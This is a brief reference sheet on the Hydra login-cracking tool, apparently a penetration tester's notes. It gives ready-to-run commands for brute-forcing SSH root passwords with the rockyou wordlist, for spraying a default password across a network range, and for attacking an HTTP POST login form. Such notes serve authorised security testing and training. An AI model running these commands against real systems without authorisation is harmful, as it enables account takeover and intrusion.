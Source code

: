 # Hydra

## Documentation

* [https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)

## Common Options

* \-l : username
* \-P : wordlist

## Examples

### SSH

#### Bruteforcing user on a single host

```
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1 -e nsr ssh
```

#### Spraying across a network

```
hydra -l root -p toor 10.0.0.0/24 ssh
```

### HTTP POST

```
hydra 10.0.0.1 http-form-post "/action.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
```

